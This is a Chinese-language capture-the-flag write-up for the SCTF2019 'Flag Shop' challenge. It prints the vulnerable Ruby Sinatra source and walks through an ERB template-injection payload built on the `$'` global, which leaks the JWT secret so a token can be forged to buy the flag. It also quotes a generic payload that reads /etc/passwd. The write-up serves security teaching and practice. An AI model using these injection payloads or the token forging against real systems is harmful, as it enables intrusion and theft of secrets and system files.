










# [SCTF2019]Flag Shop

## 知识点

`jwt`

`ruby EBR`

`SSTI`

## 解题



`work`可以获得钱，但是太少，看了`cookie`，发现是`jwt`，解密一下





发现有`jkl`代表钱，但是需要破解`secret`，用了`c-jwt-crack`和`字典破解`发现都没有找到，说明应该不是直接破解，找找其他的地方

在`robots.txt`找到了个路径`/filebak`,进入路径后发现`ruby`代码



```ruby
require 'sinatra'
require 'sinatra/cookies'
require 'sinatra/json'
require 'jwt'
require 'securerandom'
require 'erb'

set :public_folder, File.dirname(__FILE__) + '/static'

FLAGPRICE = 1000000000000000000000000000
ENV["SECRET"] = SecureRandom.hex(64)

configure do
  enable :logging
  file = File.new(File.dirname(__FILE__) + '/../log/http.log',"a+")
  file.sync = true
  use Rack::CommonLogger, file
end

get "/" do
  redirect '/shop', 302
end

get "/filebak" do
  content_type :text
  erb IO.binread __FILE__
end

get "/api/auth" do
  payload = { uid: SecureRandom.uuid , jkl: 20}
  auth = JWT.encode payload,ENV["SECRET"] , 'HS256'
  cookies[:auth] = auth
end

get "/api/info" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  json({uid: auth[0]["uid"],jkl: auth[0]["jkl"]})
end

get "/shop" do
  erb :shop
end

get "/work" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  auth = auth[0]
  unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
  end

  if params[:do] == "#{params[:name][0,7]} is working" then

    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result

  end
end

post "/shop" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }

  if auth[0]["jkl"] < FLAGPRICE then

    json({title: "error",message: "no enough jkl"})
  else

    auth << {flag: ENV["FLAG"]}
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    json({title: "success",message: "jkl is good thing"})
  end
end


def islogin
  if cookies[:auth].nil? then
    redirect to('/shop')
  end
end
```

在这里存在`ssti`

```ruby
get "/work" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  auth = auth[0]
  unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
  end

  if params[:do] == "#{params[:name][0,7]} is working" then

    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result

  end
end
```

`ruby EBR`漏洞格式是`<%=%>`已经占了`5`个字符，这里要求`7`个字符。

常用的`payload`是

```ruby
<%= 7 * 7 %>
<%= File.open('/etc/passwd').read %>
```

这里利用`ruby`的[预定义变量](https://docs.ruby-lang.org/en/2.4.0/globals_rdoc.html)，只用两个字符

> `$'` The string to the right of the last successful match. 最后一次成功匹配的右侧的字符串

按照代码构造`payload`

```
/work?SECRET=&name=<%=$'%>&do=<%=$'%> is working
//urlencode
work?SECRET=&name=%3C%25%3D%24'%25%3E&do=%3C%25%3D%24'%25%3E%20is%20working
```



用获取到的这个`secret`加密



将这个`secret`用来加密，修改金额



然后就可以进行购买





最后用`jwt`解密



[参考文章](https://syunaht.com/p/1841453998.html)